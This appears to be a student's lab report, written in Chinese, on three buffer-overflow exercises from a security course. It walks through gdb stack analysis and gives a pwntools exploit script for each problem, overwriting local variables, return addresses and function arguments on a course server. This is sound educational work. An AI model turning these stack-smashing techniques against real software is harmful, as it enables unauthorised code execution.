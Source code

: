 ## Report of Lab1

​																																			3180103650 王睿

### Problem 1: bof-baby

#### 1. 分析

​	首先，我们可以通过阅读源代码（bof-baby.c），判断本问题是需要我们在`hear()`函数内在读入字符串时利用`gets()`函数存在的buffer overflow，将函数内的局部变量`p1`与`p2`的值覆盖成相等的值

<img src="Report of Lab1.assets/image-20210327200653429.png" alt="image-20210327200653429" style="zoom:80%;" />

#### 2. 实验步骤

1. gdb动态调试

   - 进入`hear()`前

   ​	经过第一步的分析，我们就需要确定要输入什么值，能够覆盖掉`p1`与`p2`。因此，我们采用gdb调试，来寻找对应的地址

   ​	可以看到，在调用`hear()`前，栈帧esp在`0xffffd000`处

   ![image-20210327200942785](Report of Lab1.assets/image-20210327200942785.png)

   而调用call时，会将下一条指令的地址`0x804863c`压入栈中，作为return address

   - 进入`hear()`后

     我们也可以看到栈上$ebp+4处的内容确实为return address

     ![image-20210327201838826](Report of Lab1.assets/image-20210327201838826.png)

     接下来，我们就可以通过pwngdb找到各个局部变量在栈上的地址，其中，数组`str[]`的首地址，与`p2`的地址之间相差50个byte，因此，我们只需要输入50个任意值加上两个相同的字符即可

     ![image-20210327202054968](Report of Lab1.assets/image-20210327202054968.png)

2. 编写exploit.py

   ```python
   from pwn import *
   context.log_level = 'DEBUG'
   
   flag = "00000000000000000000000000000000000000000000000000NN"
   
   conn = remote("47.99.80.189", 10001)
   conn.recvuntil("ID:\n")
   conn.sendline("3180103650")
   
   #conn.recvuntil("characters:\n")
   conn.sendline(flag)
   conn.interactive()
   ```

3. 运行exploit.py

   ![image-20210327202407053](Report of Lab1.assets/image-20210327202407053.png)

#### 3. 实验结果

​	![image-20210327202427346](Report of Lab1.assets/image-20210327202427346.png)

### Problem 2: bof-boy

#### 1. 分析

​	我们可以通过阅读bof-boy.c源代码，发现这道题需要我们在`func()`函数内读入字符串时利用`read()`函数存在的overflow漏洞，覆盖掉return address，从而在函数结束时跳转到target_code. 同时，因为源代码中通过`strlen()`函数来判断是否越界，我们只需要在输入payload中的前10个字符内加入`\x00`表示字符串终结符即可。

![image-20210328201341131](Report of Lab1.assets/image-20210328201341131.png)

#### 2. 实验步骤

1. 通过gdb调试，因为return address在$ebp +4处，我们可以看到buffer数组的首地址距离return address有22个字节

   ![image-20210328201628270](Report of Lab1.assets/image-20210328201628270.png)

2. 同时，我们可以通过`p &target_code`观察到函数`target_code()`的地址

   ![image-20210328201740424](Report of Lab1.assets/image-20210328201740424.png)

   因此，我们只需要在flag中前22位填充`\x90`，且前十位中有一个`\x00`，后面放上`0x8048576`即可，需要注意的是要符合小段规则，即顺序应为`"\x76\x85\x04\x08"`

3. 编写exploit.py

```python
from pwn import *
context.log_level = 'DEBUG'

payload = "\x90\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x76\x85\x04\x08\x90\x90\x90"

conn = remote("47.99.80.189", 10002)
conn.recvuntil("ID:\n")
conn.sendline("3180103650")

conn.recvuntil("me!")
conn.send(payload)
conn.interactive()
```

4. 运行exploit.py

![image-20210328200716420](Report of Lab1.assets/image-20210328200716420.png)

#### 3. 实验结果

![image-20210328200736288](Report of Lab1.assets/image-20210328200736288.png)

### Problem 3: bof-again

#### 1. 分析

​	与上一个问题相似，通过观察bof-again.c的源代码，我们可以想到需要利用`func()`的`read()`函数，将返回值覆盖；需要注意的是，在这个问题的`target_code()`函数中需要有两个参数，因此我们还需要将参数也通过buffer overflow写入栈中

#### 2. 实验步骤

- 通过gdb调试，我们可以看到`buffer[]`数组的首地址，以及该函数栈帧`$bep`的地址，二者相差28个bytes

  ![image-20210329120308559](Report of Lab1.assets/image-20210329120308559.png)

- 而因为需要跳转到`target_code()`函数，我们可以看到在该函数开头有一段prologue，它push了ebp，也就是将esp的值减了4；同时，也能看到我们需要将栈帧的return address通过overflow设置为`0x08048516`。

  所以我的想法就是利用在target_code的prologue来将ebp设置为esp，而esp在func()函数结束后没有改动，因此就可以在func()函数的栈帧上写入参数，到target_code()中去读

  ![image-20210329120417496](Report of Lab1.assets/image-20210329120417496.png)

- 综上，我的想法就是将覆盖后的栈帧设置如下：

  ![image-20210329121707605](Report of Lab1.assets/image-20210329121707605.png)

- 为此，我们就可以编写我们的脚本代码：

  ```python
  from pwn import *
  context.log_level = 'DEBUG'
  
  payload = "\x90"*32+"\x16\x85\x04\x08"+"\x90"*4+"\xbb\xbb\xaa\xaa\xdd\xdd\xcc\xcc"
  
  conn = remote("47.99.80.189", 10003)
  conn.recvuntil("ID:\n")
  conn.sendline("3180103650")
  
  conn.recvuntil("me!")
  conn.send(payload)
  conn.interactive()
  ```

- 运行脚本代码

![image-20210329120116051](Report of Lab1.assets/image-20210329120116051.png)

#### 3. 实验结果

![image-20210329120130071](Report of Lab1.assets/image-20210329120130071.png)